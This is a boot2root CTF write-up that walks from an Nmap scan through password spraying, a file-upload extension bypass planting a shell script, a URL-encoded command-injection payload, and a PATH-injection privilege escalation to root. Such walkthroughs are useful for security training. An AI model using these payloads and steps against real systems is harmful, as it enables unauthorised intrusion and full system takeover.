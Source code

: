 <div style="display:block;text-align:middle"><img align="middle" src="https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F3e30ac37-cb08-4ac9-89d9-73271b6ae425%2Fposter.jpg?id=c0d21156-5af6-4626-8d7d-770a731f728f&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=1250&userId=&cache=v2" border="0" style="width:450px;">

  
It was a boot2root CTF competition Conducted By IIT Bhubaneswar .
  
```http
  Machine IP : 191.101.3.104
```
### Nmap Scan
```sh
PORT     STATE  SERVICE REASON
22/tcp   open   ssh     syn-ack ttl 50
53/tcp   open   domain  syn-ack ttl 56
80/tcp   open   http    syn-ack ttl 59
443/tcp  open   https   syn-ack ttl 49
1075/tcp closed rdrmshc reset ttl 43
```
so i first tried visiting the port 80

![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fec9f0d5e-cd44-4edc-b53a-b82fa7816b20%2F80.png?id=966259b2-8eca-45f1-a7d3-cc941d0529d2&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
 
it was a basic apache2 homepage , so i skipped
head on to port 443 , there i found this interesting page :

![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F173dd7cd-91f6-4aa8-b484-12a1efd16aca%2F443.png?id=afd219ea-4d74-4281-a82d-8b96b830b22f&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
this looked interesting to me so i fuzzed it & got some endpoints :

```sh
302      GET        1l        4w       23c http://191.101.3.104:443/logout => /
200      GET       29l      120w     1707c http://191.101.3.104:443/
200      GET       51l      122w     1870c http://191.101.3.104:443/maintenance
200      GET       51l      122w     1870c http://191.101.3.104:443/Maintenance
302      GET        1l        4w       23c http://191.101.3.104:443/Logout => /
200      GET       81l      143w     2641c http://191.101.3.104:443/complaints
```
  
`maintenance` & `complaints` endpoints looks very interesting so i visited both & it looked like this :

Maintenance page :
  
![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F53b66e65-c7aa-4e06-9bb8-d28f662171d3%2Fmain-login.png?id=bb7a287d-a1ac-4360-b5ee-ce62d23f9731&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=1150&userId=&cache=v2)
  
maintenance page had a login portal i tried password spraying attack on it & it got cracked in seconds
  
![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fa5831c61-84af-4e34-b4c7-59ceefe2a508%2Fpassword-spraying.png?id=8186e9f8-54d0-4224-b38c-ef5fea73d8c6&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
so `admin:password1` were the creds for the login page . i successfully logged in to the maintenance page

after loggin in :
  
![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F6362dc41-51e8-4491-bad3-152548143d4b%2Fmaintenance.png?id=1b2d9c4e-70e5-490a-b882-051b3e2ff9b1&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
 maintenance page had 2 buttons called `Free-up storage` & `Cleanup-cache`
  
 the request for these 2 buttons were :
  
 ![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F6d195405-b6a2-4d24-b42e-a3ccbda91ab4%2Fmaitenance-request.png?id=f1e1d9c7-4abb-45b3-a381-9382d027d3c0&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=1630&userId=&cache=v2)
  
 so it gave some idea that i can run some code execution from here
  
  Complaint Page :
  
  ![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F7e2dcb5c-5db2-4ff5-9a79-b09e461cedc4%2Fcomplaints.png?id=9a20ceca-d375-445a-9977-2dde2113bc77&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
when i checked the other endpoint called complaints it had file upload vulnerability
i tried uploading reverse-shell.php but i noticed its using `nodejs` so php rev shell wont work , i took my teammate Raj's help to figure out the shell   part 
so i tried with bash shell , one more thing was there that user can only upload images so i had to do extension bypass using burp :
 
![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fa914d3b8-0f21-415f-b121-db1e2b8a63dc%2Ffoothold.png?id=a1572433-0fab-4239-8b8a-a8c9214b1ff8&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
here i used bind shell because due to some reasons my rev shell wasnt working & used ports over 1024 as they are reserved ports & they need sudo perm in linux if u want to listen/emit on them , so basically i changed the extension from `foothold.sh.jpg` to `foothold.sh` here & it bypassed the filter & got uploaded as a sh script . the path it got uploaded to was ./images  

![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F9ccb93db-152d-44b5-93b3-dc212a69c8a0%2Fuploads-dir.png?id=e220c5a2-64ed-4d1b-b0b3-bffe03a98475&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=1060&userId=&cache=v2)
  
so my shell got uploaded but now i need to trigger it so i went back to maintenance page where i had a param which was executing. i knew the path now so i used && with url encoded , typed bash to invoke my script `[foothold.sh](http://foothold.sh)` 

so the actual payload was :
```sh
script_to_run=Cleanup.out %26%26 bash ./images/foothold.sh %3c%3c
```

& we got shell yay :
  
![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fa2b3516a-20e2-4738-92b4-fbfda34ca98f%2Ffooldhold2.png?id=cc0fdffd-dc73-4158-a82e-dcc6106b1c29&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)

## PrivEsc

we are logged in as guest user now we need to be root
so i did manual enumeration of privesc 
i found out `/home/node/webapp/scripts/cleanup.sh` is `suid` bin & later on playing with that folder i found out its leading to path injection , where `apt-get` binary is called by the cleanup.sh program which was ran by root . it gave me the idea of path Injection 

#### Path Injection to root
```sh
step 1 : echo '#!/bin/bash' > /tmp/apt-get
step 2 : echo '/bin/bash -p' >> /tmp/apt-get
step 3 : chmod +x /tmp/apt-get
step 4 : export PATH=/tmp:$PATH
step 5 : cd /home/node/webapp/scripts/
step 6 : ./Cleanup.out

Boom Rooted
```
& We got root :)

![](https://ctfserver.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fc1cb6a30-a0d2-4a77-8bbb-53bed1161483%2Froot-privesc.png?id=ffa44f9a-dcb1-4bfc-8ce6-e183fb68e5bc&table=block&spaceId=c3ad219a-dbb4-4c28-8291-47bfde76d88a&width=2000&userId=&cache=v2)
  
#### P.S : Won this CTF :)
